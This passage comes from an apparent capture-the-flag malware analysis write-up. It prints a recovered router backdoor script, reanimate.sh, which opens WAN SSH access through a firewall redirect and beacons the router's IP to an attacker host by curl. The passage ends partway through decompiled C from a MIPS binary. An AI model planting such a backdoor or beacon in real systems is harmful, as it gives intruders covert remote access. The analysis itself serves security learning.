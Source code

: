 I ran both of these commands, and was able to retrieve the two files.

## reanimate.sh

The `reanimate.sh` script looks like this:

```bash
#!/bin/sh

WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)

CONFIG="config redirect             \n\t              
	option dest 'lan'           \n\t
	option target 'DNAT'        \n\t 
	option name 'share'         \n\t
	option src 'wan'            \n\t
	option src_dport '61337'    \n\t
	option dest_port '22'       \n\t
	option family 'ipv4'        \n\t
	list proto 'tcpudp'         \n\t
	option dest_ip '${ROUTER_IP}'"

echo -e $CONFIG >> /etc/config/firewall
/etc/init.d/firewall restart

curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb/reanimate
```

The code creates a firewall rule that redirects traffic from port 61337 to port 22, allowing SSH access to the router from the WAN. It then sends a POST request to http://configs.router.htb/reanimate, with the WAN IP address of the router, presumably to notify the attackers that the router is back online.

If we Base64 decode the auth token, we get `HTB{Z0mb13s_h4v3_inf`, which is the first half of the flag.

## dead_reanimated

The `dead_reanimated` binary is a MIPS32 binary, just like `dead-reanimation`.  I loaded it into Ghidra, and began analyzing it.  This binary has a main function which Ghidra was able to identify, and it looks like this:

```c
undefined4 main(void)

{
  size_t sVar1;
  void *pvVar2;
  int iVar3;
  FILE *pFVar4;
  __uid_t _Var5;
  passwd *ppVar6;
  undefined4 uVar7;
  undefined uStack_169;
  undefined4 local_168;
  undefined auStack_164 [252];
  undefined auStack_68 [44];
  char acStack_3c [28];
  undefined4 local_20;
  undefined4 local_1c;
  undefined4 local_18;
  
  local_20._0_1_ = 'z';
  local_20._1_1_ = 'o';
```